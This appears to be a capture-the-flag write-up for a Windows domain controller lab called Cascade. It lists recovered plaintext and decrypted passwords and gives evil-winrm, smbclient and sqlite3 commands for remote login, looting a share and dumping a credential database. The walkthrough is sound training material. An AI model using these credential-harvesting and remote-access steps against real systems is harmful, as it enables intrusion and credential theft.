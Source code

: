### Interesting Open Ports and Services

```
53/tcp - Microsoft DNS 6.1.7601
88/tcp - Kerberos
135/tcp - RPC
389/tcp - LDAP
445/tcp - SMB
```

### Enumeration Findings

- Windows Server 2008 R2 SP1
- Domain: cascade.local
- Host: CASC-DC1
- RPC Null Auth allowed user enumeration
- SMB NULL authentication not available
- LDAP search revealed `r.thompson` user with base64 encoded password in cascadeLegacyPwd field
- Successfully authenticated as `r.thompson` with password `rY4n5eva`
- Discovered non-common Data share with `r.thompson's` read access
- Found `Meeting_Notes_June_2018.html` mentioning TempAdmin user with same password as admin account
- Found `VNC Install.reg` file containing hex-encrypted password for TightVNC
- Decrypted VNC password to `sT333ve2` for user `s.smith`
- `s.smith` has WinRM access to the machine
- Additional interesting files: `ArkAdRecycleBin.log` showing `TempAdmin` deletion by `ArkSvc` user, `dcdiag.log`

## Lateral Movement to ArkSvc user

### Commands

```bash
evil-winrm -i 10.10.10.182 -u s.smith -p sT333ve2

PS > net user s.smith # reveals the logon script (MapAuditDrive.vbs)

# Now to find the file to see contents
PS > $Path = Get-ChildItem -Path C:\ -Filter "MapAuditDrive.vbs" -Recurse -ErrorAction SilentlyContinue -Force | Select-Object -ExpandProperty FullName
PS > Write-Host $Path
PS > more C:\Windows\SYSVOL\sysvol\cascade.local\scripts\MapAuditDrive.vbs

smbclient -U 's.smith' \\\\10.10.10.182\\Audit$
smb: \DB\> mget Audit.db
smb: \> mget CascAudit.exe
smb: \> mget CascCrypto.dll

sqlite3 Audit.db
sqlite> .tables
sqlite> .dump

# Go to Windows VM and file transfer the files from the Audit$ share, then use DotPeek to look for everything. Keywords: 'main', 'DecryptString', these will help you find the code faster.
# Create the Python file for decryption of password, code in 'Real-Time Notes and Thought Process'
```
